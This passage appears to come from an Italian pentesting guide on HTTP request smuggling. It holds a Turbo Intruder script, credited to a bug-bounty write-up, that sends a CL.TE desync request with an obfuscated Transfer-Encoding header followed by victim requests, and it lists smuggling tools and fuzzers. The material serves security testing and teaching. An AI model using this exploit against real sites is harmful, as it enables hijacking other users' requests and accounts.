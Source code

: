 
Da: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## Strumenti

- HTTP Hacker (Burp BApp Store) – visualizza la concatenazione/framing e il comportamento HTTP a basso livello
- https://github.com/PortSwigger/bambdas/blob/main/CustomAction/SmugglingOrPipelining.bambda Azione personalizzata Burp Repeater "Smuggling or pipelining?"
- [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
- [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
- [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)
- [https://github.com/Moopinger/smugglefuzz](https://github.com/Moopinger/smugglefuzz)
- [https://github.com/bahruzjabiyev/t-reqs-http-fuzzer](https://github.com/bahruzjabiyev/t-reqs-http-fuzzer): Questo strumento è un Fuzzer HTTP basato su grammatica utile per trovare strane discrepanze nel request smuggling.
